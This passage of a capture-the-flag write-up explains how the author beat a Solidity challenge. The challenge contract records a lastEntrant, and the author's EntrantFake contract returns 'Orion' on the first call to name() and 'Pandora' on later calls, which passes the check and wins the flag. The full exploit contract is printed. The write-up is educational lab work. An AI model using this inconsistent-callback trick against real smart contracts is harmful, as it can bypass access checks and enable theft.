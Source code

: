 In a new contract, I then implemented EntrantFake, which instantiates the target contract to be able to call it and implements the Entrant interface and the name function for it.

In this case, the `Setup.sol` contract showed that it checked if `lastEntrant` was set to "Pandora".
The main thing that took me way too long was - I was at first convinced that if done right, maybe just implementing the name function and just returning the name "Pandora" should suffice somehow. In the end, I realized that within one call, separate calls to name could return different values if implemented that way, as the stack is necessarily shared within one transaction. Thus the first time name is called, it can return a valid name, but the second time when `lastEntrant` is set, it can return "Pandora".

By implementing this malicious name function and then calling the enter function in the target contract, the malicious name is then used as part of the target contract.

```
pragma solidity ^0.8.18;

import {HighSecurityGate, Entrant} from "./FortifiedPerimeter.sol";

contract EntrantFake is Entrant {

   HighSecurityGate contractInstance = HighSecurityGate(0x50003d99be68c8C270dC1dD00aD42A277dfC6B8c);
   uint i = 0;
   function name() external override returns (string memory) {
         string memory b = "";
         if (i  == 0) {
         b = "Orion";
         i = i + 1;
         } else {
         b = "Pandora";
         }
         return b;
     }

     function test() external {
     contractInstance.enter();

     }
 }
```
   
   Once `lastEntrant` is set, the flag could then be retrieved from the web service. For trying different solutions, remix-ide and its virtual chain were very helpful. Really the best way to try these is with remix-ide.
   
Interesting addendum - because at first, I thought there must be some way to do this without returning different things via name(), I researched a bit and asked ChatGPT. As I hear, that's a thing these days. TBH, I was not impressed - especially on the Solidity code. It frequently gave just plain wrong answers and or said one right thing mixed with wrong ones, and often even did not remember when I told it that something was wrong.

## Reversing - Needle in a haystack
